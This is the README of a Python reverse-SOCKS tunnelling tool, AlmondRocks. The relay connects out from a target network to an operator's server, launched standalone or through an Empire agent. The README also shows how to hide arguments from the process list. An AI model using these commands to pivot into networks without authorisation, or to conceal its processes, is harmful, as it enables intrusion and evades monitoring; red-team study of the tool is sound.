 # AlmondRocks
AlmondRocks ("arox") is a tunneling tool that connects out from a target network and provides a (limited) SOCKSv5 interface. The tunnel connection is currently a binary protocol under TLS.

This tool is currently in BETA. The biggest known issue at the moment is lack of tunnel peer authentication.

## Requirements
- Python 2.7

## Components

#### Server
The `server` receives tunnel connections and opens a SOCKS proxy port.

#### Relay
The `relay` connects out from target to a `server`. All subsequent traffic proxied through the SOCKS port on the server will be tunneled through the target.

## Usage

#### Server (standalone)

The `-h` flag shows a help menu. Listen on 443/tcp for tunnel connections, and listen on 1080/tcp for SOCKS clients:

```
python arox.py -v server --tunnel-addr 0.0.0.0:443 --socks-addr 127.0.0.1:1080 --cert ssl/cert.pem --key ssl/key.pem
```

#### Server (Docker)

The server is Dockerized for convenience. To use **default certs** (not recommended):

``` bash
[root]# docker pull klustic/arox:latest
[root]# docker run --rm -it -p 1080:1080 -p 443:4433 --name arox klustic/arox
```

To override the default certs, mount a volume from a directory containing `cert.pem` and `key.pem`:

``` bash
[root]# docker pull klustic/arox:latest
[root]# docker run --rm -it -p 1080:1080 -p 443:4433 --name arox -v $(pwd)/ssl:/opt/arox/ssl:ro klustic/arox
```

#### Relay (standalone)

The `-h` flag shows a help menu. Connect to master at 10.0.0.10:443:

```
python arox.py -v relay --tunnel-addr 10.0.0.10:443
```

#### Relay (Empire)

First, setup your AROX server (see above). Once you have an Empire agent connected, issues the following commands to Empire:

```
agents
interact <sessionId>
usemodule management/multi/socks
set server <AROX server IP/domain>:<AROX server port>
info
execute
```

NOTE: AROX v1.0.0 broke compatibility with previous versions. The current version is not merged into EmpireProject yet. To use the current version, issue this command before starting Empire:

``` bash
cp -rv Empire/* /opt/Empire/   ## Or wherever you have installed Empire
```

## Advanced Usage

In some cases you may want to hide commandline options in the process list. AROX supports passing arguments via stdin on the command line:

```
echo -v relay --tunnel-addr 10.0.0.10:443 | python arox.py
```

Looks like this in the process list:

```
[root@testing-c67 arox]# echo -v relay --tunnel-addr 10.0.0.10:443 | python2.7 arox.py
[-] Checking for options on stdin...
[+] Options received
[2018-05-15 14:39:36]     INFO SocksRelay: Connected to 10.0.0.10:443
...
[root@testing-c67 arox]# bg
[root@testing-c67 arox]# ps -ef --forest
...
root       1585   1584  0 14:04 pts/0    00:00:00                  \_ /bin/bash
root       1676   1585  0 14:39 pts/0    00:00:00                      \_ python2.7 arox.py
root       1677   1585  0 14:39 pts/0    00:00:00                      \_ ps -ef --forest
```

## Listing active connections through the AROX tunnel

There is an easter egg that lists all connections that are opened via arox tunnel. Press `CTRL-\` on the arox server terminal to view statistics.

```
...
[2018-05-15 19:43:34]     INFO Tunnel: Closed channel: <Channel id=304960167 remote_addr=www.pandora.com[208.85.40.50]:443 local_addr=127.0.0.1:56896>
[2018-05-15 19:43:34]     INFO Tunnel: Closed channel: <Channel id=304960168 remote_addr=www.pandora.com[208.85.40.20]:443 local_addr=127.0.0.1:56898>
^\[2018-05-15 19:43:42]  WARNING SocksServer:
[2018-05-15 19:43:42]  WARNING SocksServer: ~~~ Stats for nerds : 5 open channels, tunnel peer is 10.0.0.11:60814 ~~~
[2018-05-15 19:43:42]  WARNING SocksServer:   <Channel id=304960141 remote_addr=www.pandora.com[208.85.40.20]:443 local_addr=127.0.0.1:56844>
[2018-05-15 19:43:42]  WARNING SocksServer:   <Channel id=304960142 remote_addr=lt500.tritondigital.com[54.243.169.218]:443 local_addr=127.0.0.1:56846>
[2018-05-15 19:43:42]  WARNING SocksServer:   <Channel id=304960143 remote_addr=stats.pandora.com[208.85.40.147]:443 local_addr=127.0.0.1:56848>
[2018-05-15 19:43:42]  WARNING SocksServer:   <Channel id=304960145 remote_addr=adserver.pandora.com[208.85.40.115]:443 local_addr=127.0.0.1:56852>
[2018-05-15 19:43:42]  WARNING SocksServer:   <Channel id=304960146 remote_addr=adserver.pandora.com[208.85.40.115]:443 local_addr=127.0.0.1:56854>
[2018-05-15 19:43:42]  WARNING SocksServer: ~~~ End of Stats ~~~
...
```
